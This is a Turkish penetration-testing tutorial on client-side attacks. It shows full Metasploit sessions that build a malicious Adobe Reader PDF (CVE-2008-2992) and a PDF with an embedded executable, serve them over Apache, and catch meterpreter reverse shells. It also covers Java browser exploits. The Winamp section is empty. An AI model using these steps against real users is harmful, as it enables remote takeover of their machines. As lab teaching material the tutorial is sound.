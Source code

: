 ### Client-side Exploitation

#### PDF Sızma

Portable Document Format (PDF) yazılımına da sızma yapılabilir. Eğer kullanıcıyı kötü amaçlı PDF dosyamızı güvenlik zaafiyeti olan uygulamada görmesine ikna edebilirsek, o programa sızabiliriz.

Windows sistemlerinde en yaygın kullanınan PDF uygulaması Adobe Reader. Web tarayıcıları gibi, Adobe Reader'in de güvenlik açıkları ile çevrili bir tarihi vardır. Gene web tarayıcılarında olduğu gibi paketli güncelleme yönetimi mevcut olsa bile, genelde güncelleme yapmayı ihmal ettiğimiz program türlerinden.

Bizim Windows XP makinemizde Adobe Reader'in eski 8.1.2 sürümü kurulu, bu sürümünde CVE-2008-2992 sorunu bulunmakta. Bu sorun amaçlı Metasploit modülümüz ise _exploit/windows/fileformat/adobe_utilprintf_. Bu modüle gireceğimiz değerler şu ana kadar gördüklerimizden biraz farklı. Bu kullanıcı taraflı bir saldırı olduğundan _RHOST_ gibi değerlere gerek yok. Modülün yaptığı görev ise kötü amaçlı bir PDF oluşturmak.

```ShellSession
msf > use exploit/windows/fileformat/adobe_utilprintf 
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  ----------- 
    FILENAME   msf.pdf          yes       The file name.

Exploit target:
    Id  Name
    --  ----
    0  Adobe Reader v8.1.2 (Windows XP SP3 English)

msf exploit(adobe_utilprintf) > exploit [*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf
```

Gördüğünüz gibi, PDF exploit için gireceğimiz tek değer oluşturulacak zararlı PDF dosyası için isim. Onu da varsayılan değeri _msf.pdf_ olarak bırakabiliriz. Bu örneğimiz için Metasploit'in varsayılan _windows/meterpreter/reverse_tcp_ payload'nı 4444 portunda kullanacağız. __exploit__ çalıştırdığımızda, Metasploit bizim için Windows XP SP3 English sisteminde bulunan güvenlik zaafiyeti Adobe Reader için zararlı PDF dosyası oluşturacaktır. Dosyamız _/root/.msf4/local/msf.pdf dizininde kaydedilecek.

Payload için bir işleyici (handler) ayarlamamız gerekiyor:

```ShellSession
msf exploit(adobe_utilprintf) > cp /root/.msf4/local/msf.pdf /var/www 
[*] exec: cp /root/.msf4/local/msf.pdf /var/www

msf exploit(adobe_utilprintf) > service apache2 start 
[*] exec service apache2 start

Starting web server: apache2.

msf exploit(adobe_utilprintf) > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.20.9
lhost => 192.168.20.9

msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.20.9:4444
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at 2015-05-05 20:26:15 -0400
```

Oluşturduğumuz dosyayı Apache sunucusuna atıyoruz, ve sunucuyu çalıştırıyoruz. Bu dosyayı sonradan anlatacağımız sosyal mühendislik yönteminde de kullanabiliriz, bir kişiye değilde birkaç kişiye göndereceğimizden _multi/handler_ modülünü kullandık. 

ExitOnSession varsayılan değerini false yaparak, oturum bilgisi aldığında dinleyicinin kapanmasını önleyebiliriz. Yani birkaç kullanıcı için, çoklu oturum açmış oluyoruz.

```ShellSession
msf exploit(handler) > show advanced 
Module advanced options:
--snip--
   Name           : ExitOnSession
   Current Setting: true
   Description    : Return from the exploit after a session has been created
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

##### PDF Embedded Executable

PDF saldırıları için diğer bir yöntem ise; PDF içine zararlı çalışan bir script yerleştirmek. Bu amaçlı kullanacağımız Metasploit modülü ise _exploit/windows/fileformat/adobe_pdf_embedded_exe_. Programa direk açılışında sızma yerine, PDF açıldığında bir script için çalıştırabilme yetkisini isteyecek. Kullanıcı buna izin verdiği takdirde, işlemimiz başarıyla sonuçlanır.

![PDF](../resim/ataklar/client/pdf1.png)

Bu modül (1) önceden oluşturduğumuz scripti __EXANAME__ değeri ile tanımlayabilmemizi sağlar; (2) oluşturacağımız pdf dosyası ismini, (3) __INFILE__ değeri ile giriş PDFyi, (4) __LAUNCH MESSAGE__ ile izin isterken göstereceğimiz mesajı belirleriz.

Aşağıdaki gibi lazım olan değerleri girelim. Örneğimiz için Kali Linux'la gelen Metasploit kullanım klavuzunu kullanıyoruz, _/user/share/set/readme/User_Manual.pdf_ da bulunur. Sonrasında oluşturulan dosya, gene _/root/msf4/local/_ dizininde yer alacak.

![PDF](../resim/ataklar/client/pdf2.png)

Zararlı PDF dosyası açıldığında, kullanıcı aşağıdaki gibi bir uyarı alacak. Atağın bu çeşidi kullanıcın _Open_ tıklamasına bağlı. Kullanıcı _Open_ tıkladığı takdirde payload çalışır ve biz oturum bilgisi alırız.

![PDF](../resim/ataklar/client/pdf3.png)

___

#### Java Sızma

Java açıkları kullanıcı taraflı ataklar için yaygın bir alandır. Aslında, bazı uzmanlar Javanın bu açıklarından dolayı onun kaldırılmasını veya web tarayıcılarımızdan devre dışı bırakılmasını önermektedir.

Java saldırılarını güçlü kılan unsur ise, bir exploit çoklu platform için kullanılabilir. Windows, Mac hatda Linux sistemlerinde web tarayıcısı içinde çalışan Java Runtime Environment (JRE) aynı exploit ile sızılabilmekte. Bunlardan birkaçına bakalım:

Bir numara olarak, _exploit/multi/browser/java_jre17_jmxbean_ Metasploit modülünü kullanalım. Metasploit zararlı bir sunucu oluşturur, ve o sayfaya gelen herkese sızar. Java 7 sürümü 11. güncellemeden önceki hepsi etkilenir.

![PDF](../resim/ataklar/client/java1.png)

Kendi çevremize göre değerleri belirliyoruz. _SRVHOST_ değerini şahsi yerel IP adresimiz; istersek _SRVPORT_'unda değiştirebiliriz; _URIPATH_ değerini hedefimizdeki tarayıcıda kolay yazabilecek bir değer atıyoruz.

Exploit'imiz çoklu platform desteklediğinden ve kod çalışma işlemi JRE içinde gerçekleştiği için, payload değerlerimiz Java tabanlıdır. Olagan şüphelilerin hepsi burda sıralınır inline payloads, staged payloads, bind shells, reverse shells, Meterpreter vb. Biz _java/meterpreter/reverse_http_ payloadını yasal HTTP trafiğini kullanıdığından onu seçiyoruz:

![PDF](../resim/ataklar/client/java2.png)

Yukardaki değerler artık size tanıdık gelmesi lazım. _LPORT_ varsayılan değeri şimdi 4444 yerine 8080. Dikkat edersek _SRVPORT_ ve _LPORT_ değerlerinin ikisi de aynı olduğundan, en azından birini değiştirmemiz gerekir.

Değerleri atadıktan sonra, exploit sunucusunu başlatalım ve Windows 7 makinemizde o zararlı sayfayı ziyaret edelim. Internet Explorer da Mozilla Firefox ta Java eklentisi açık olduğu sürece bu açığın kurbanı olacaklardır.

Ek olarak PDF de kullanıcı onaylaması ile ilgili örnekte yaptığımız gibi Signed Java Applet _exploit/multi/browser/java_signed_applet_ kullanarak ta aynı mantık ile bir sızma yapılabilir. Mantık aynı. Çıktı olarak aşağıdaki gibi olacaktır:

![PDF](../resim/ataklar/client/java3.png)


___ 

#### Winamp



* PDF Exploits
* Java Exploits
* Winamp



















